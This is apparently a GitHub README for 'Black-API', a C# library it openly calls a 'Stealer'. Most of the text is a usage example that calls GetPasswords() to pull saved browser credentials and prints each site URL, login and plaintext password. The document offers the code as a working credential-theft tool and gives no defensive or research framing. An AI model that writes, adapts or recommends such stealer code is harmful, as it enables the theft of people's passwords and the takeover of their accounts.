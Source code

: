 # Black-API
Stealer and more

[![Codacy Badge](https://app.codacy.com/project/badge/Grade/7576b1dcd41048f2843e5d4bee57d7bc)](https://www.codacy.com/gh/Nekiplay/Black-API/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=Nekiplay/Black-API&amp;utm_campaign=Badge_Grade)

**Example:**
```C#
BlackAPI.Stealer stealer = new BlackAPI.Stealer();
var stealerresult = stealer.GetPasswords();
if (stealerresult.Work)
{
    foreach (var password in stealerresult.Passwords)
    {
        Console.WriteLine("Url: " + password.url);
        Console.WriteLine("Login: " + password.login);
        Console.WriteLine("Password: " + password.password);
        Console.WriteLine("Browser: " + password.browser);
    }
    Console.WriteLine("Total passwords: " + stealerresult.Passwords.Count);
}
else
{
    Console.WriteLine("Passwords not found");
}
```
